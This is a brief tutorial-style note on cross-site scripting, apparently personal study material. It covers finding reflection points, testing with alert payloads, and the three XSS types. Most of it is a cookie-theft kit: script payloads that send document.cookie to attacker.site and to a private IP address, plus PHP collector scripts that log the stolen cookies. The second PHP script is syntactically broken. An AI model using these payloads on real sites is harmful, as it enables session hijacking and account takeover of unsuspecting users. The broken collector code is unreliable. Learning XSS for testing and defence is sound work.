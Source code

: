 1.  Find a reflection point in the web page.
2.  Check whther HTML is worrking. Like putting harmless strings like `<i>`,`<pre>`,`<plain text>`
3.  To find XSS try injecting HTML/Java script `<script>alert('XSS')</script>` and see if it works.

There are many 3 types of XSS:

1.  Refecting
2.  Persisting
3.  DOM

To display current cookie: `<script>alert(document.cookie)</script>.`

The following script generates an image object and points its srcto a script on the attacker's server (attacker.site).

```javascript
<script>
var i= new Image();i.src="http://attacker.site/log.php?q="+document.cookie;
</script>
```

another example:

```javascript
<script>
var i = new Image();
i.src="http://192.168.99.11/get.php?cookies="+document.cookie;
</script>
```

Below is the log.php:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);?>
```

Below code is for stealing cookie:

```php
<?php
$ip=$_SERVER['REMOTE_ADDR'];
$browser=$_SERVER['HTTP_USER_AGENT']);
$fp=fopen('jar.txt','a');
fwrite=($fp, $ip.' '.$browser."\n");
fwrite=($fp, urldecode($_SERVER['QUERY_STRING'])."\n\n")'
fclose($fp);
?>
```